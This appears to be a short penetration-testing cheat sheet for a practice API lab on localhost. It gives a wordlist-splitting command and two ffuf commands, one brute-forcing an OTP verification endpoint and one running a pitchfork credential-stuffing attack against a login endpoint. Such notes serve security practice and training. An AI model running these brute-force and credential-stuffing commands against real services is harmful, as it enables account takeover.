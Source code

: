 # Split into 5 files (modify -l for different number of files)
split -l 2000 -d wordlist.txt wordlist_part

## ffuf
ffuf -w list.txt -X POST -d '{"otp":"FUZZ"}' -H "Content-Type: application/json" -u http://localhost/vapi/api4/otp/verify --mc 200 -s

## ffuf pitchfork
ffuf -w emails.txt:FUZZ1 -w pwds.txt:FUZZ2 -d '{"email":"FUZZ1","password":"FUZZ2"}' -X POST -H "Content-Type: application/json" -u http://localhost/vapi/api2/user/login -mc 200 -mode pitchfork